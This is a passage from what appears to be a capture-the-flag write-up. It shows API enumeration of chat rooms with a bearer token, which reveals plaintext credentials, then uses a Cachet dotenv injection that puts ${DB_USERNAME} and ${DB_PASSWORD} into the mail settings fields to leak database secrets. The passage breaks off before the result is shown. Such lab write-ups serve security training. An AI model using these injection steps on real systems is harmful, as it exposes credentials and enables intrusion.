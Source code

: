 ```
    "owner": "61b86aead984e2451036eb16",
    "private": false,
    "hasPassword": false,
    "participants": []
  }
]
```

Each entity here is a 'room'. So we can enumerate the messages sent in each room at `/room/<ID>/messages`. When viewing the messages in the Cachet room, we would find a password:

```
$ curl -s http://10.129.84.253:5000/rooms/61b86b28d984e2451036eb17/messages -H 'Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==' | jq
<TRUNCATED>
{
    "id": "61b8702dfe190b466d476bfa",
    "text": "Here are the credentials `john :  E}V!mywu_69T4C}W`",
    "posted": "2021-12-14T10:21:33.859Z",
    "owner": "61b86f15fe190b466d476bf5",
    "room": "61b86b28d984e2451036eb17"
}
<TRUNCATED>
```

Great! Now we can login on Cachet.&#x20;

### Cachet Information Leak

In the SonarLink blog, it is stated that we could potentially leak the configuration of the `dotenv` file, which is the basis of the RCE. In this case, it supports **nested variable assignment**. This would mean that `${NAME}` is accepted and will run.&#x20;

Following the PoC, we can use `${DB_USERNAME}` and `${DB_PASSWORD}` within Settings > Mail in the Mail Host and Mail From Address fields.

<figure><img src="../../../.gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>

When we reload the page, this would appear:
